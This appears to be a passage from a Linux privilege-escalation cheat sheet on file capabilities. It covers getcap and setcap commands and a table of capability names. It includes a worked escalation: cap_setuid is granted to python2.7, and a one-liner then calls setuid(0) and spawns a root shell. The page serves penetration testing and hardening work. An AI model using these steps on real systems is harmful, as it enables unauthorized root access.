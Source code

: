 
## Capabilities

### List capabilities of binaries 

```bash
╭─swissky@lab ~  
╰─$ /usr/bin/getcap -r  /usr/bin
/usr/bin/fping                = cap_net_raw+ep
/usr/bin/dumpcap              = cap_dac_override,cap_net_admin,cap_net_raw+eip
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/bin/rlogin               = cap_net_bind_service+ep
/usr/bin/ping                 = cap_net_raw+ep
/usr/bin/rsh                  = cap_net_bind_service+ep
/usr/bin/rcp                  = cap_net_bind_service+ep
```

### Edit capabilities

```powershell
/usr/bin/setcap -r /bin/ping            # remove
/usr/bin/setcap cap_net_raw+p /bin/ping # add
```

### Interesting capabilities

Having the capability =ep means the binary has all the capabilities.
```powershell
$ getcap openssl /usr/bin/openssl 
openssl=ep
```

Alternatively the following capabilities can be used in order to upgrade your current privileges.

```powershell
cap_dac_read_search # read anything
cap_setuid+ep # setuid
```

Example of privilege escalation with `cap_setuid+ep`

```powershell
$ sudo /usr/bin/setcap cap_setuid+ep /usr/bin/python2.7

$ python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
sh-5.0# id
uid=0(root) gid=1000(swissky)
```

| Capabilities name  | Description |
|---|---|
| CAP_AUDIT_CONTROL  | Allow to enable/disable kernel auditing |
| CAP_AUDIT_WRITE  | Helps to write records to kernel auditing log |
| CAP_BLOCK_SUSPEND  | This feature can block system suspends   |
| CAP_CHOWN  | Allow user to make arbitrary change to files UIDs and GIDs |
| CAP_DAC_OVERRIDE  | This helps to bypass file read, write and execute permission checks |
| CAP_DAC_READ_SEARCH  | This only bypass file and directory read/execute permission checks  |
| CAP_FOWNER  | This enables to bypass permission checks on operations that normally require the filesystem UID of the process to match the UID of the file  |
| CAP_KILL  | Allow the sending of signals to processes belonging to others  |
| CAP_SETGID  | Allow changing of the GID  |
| CAP_SETUID  | Allow changing of the UID  |